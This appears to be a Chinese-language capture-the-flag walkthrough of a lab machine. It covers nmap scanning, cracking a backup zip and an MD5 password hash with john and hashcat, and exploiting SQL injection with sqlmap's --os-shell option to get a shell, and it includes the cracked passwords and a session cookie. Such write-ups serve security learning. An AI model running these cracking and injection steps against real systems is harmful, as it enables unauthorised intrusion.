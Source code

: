 ### 一、操作步骤

1. nmap扫描

```shell
    nmap -A -sV 10.129.194.163
    # 出现端口21、22、80
    # 利用思路：
    #   1. 对ssh服务进行弱口令爆破，无效 
    #   2. 通过信息发现ftp可以匿名登录，发现存在文件`backup.zip`文件
    #   3. 登录10.129.194.163web页面，存在登录界面，尝试万能密码无效。
    #  假设`backup.zip`文件可能存在相关信息，但是需要密码进行解压
```

2. `backup.zip`文件破解

```
john 是一款大受欢迎的、免费的开源软件、基于字典的密码破解工具。用于在已知密文的情况下尝试破解出明文的破解密码软件，支持目前大多数的加密算法，如 DES 、 MD4 、 MD5 等
```

- 利用`zip2john`转换zip文件

```shell
    zip2john backup.zip >> hashs
```

- 使用`john`工具破解密码

```shell
    john hashs  # 获得密码741852963
```

- 解压`backup.zip`文件,发现文件`index.php`和`style.css`

```php
#index.php
session_start();
if(isset($_POST['username']) && isset($_POST['password'])) {
if($_POST['username'] === 'admin' && md5($_POST['password']) ===
"2cb42f8734ea607eefed3b70af13bbd3") {
$_SESSION['login'] = "true";
header("Location: dashboard.php");
```

> 从代码中发现，密码经过md5加密，需要解密

- 使用`hashcat`工具进行解密

```shell
    hashcat -a 0 -m 0 test.txt /usr/share/wordlists/rockyou.txt
    # -a 指定破解模式
    #       0  straight                   字典破解
    #       1  combination                将字典中密码进行组合（1 2>11 22 12 21）
    #       3  brute-force                使用指定掩码破解
    #       6  Hybrid Wordlist + Mask     字典+掩码破解
    #       7  Hybrid Mask  + Wordlist    掩码+字典破解
    # -m 指定哈希类型,0为md5
```

> 直接使用字典爆破，获得密码qwerty789,直接登录web从而进入下一步操作

3. sql注入
-  页面信息收集
```shell
    发现url：http://10.129.194.163/dashboard.php?search=f
    # 输入'发现报错，存在sql注入漏洞
```

- 使用sqlmap工具进行扫描
```shell
     sqlmap -u "http://10.129.194.163/dashboard.php?search=f" --cookie="PHPSESSID=4h3a937f4hobqtlb4v0o3iposd" --os-shell
     # --cookie 设置cookie值,用来进行验证
     # --os-shell 获取shell
     # -u 设置url链接
```
> 至此，我们已经获取webshell,为了保证连接稳定，使用反弹shell获取webshell

### 二、涉及知识点
1. 解密工具：hashcap和john
2. 弱密码
3. sqlmap工具使用


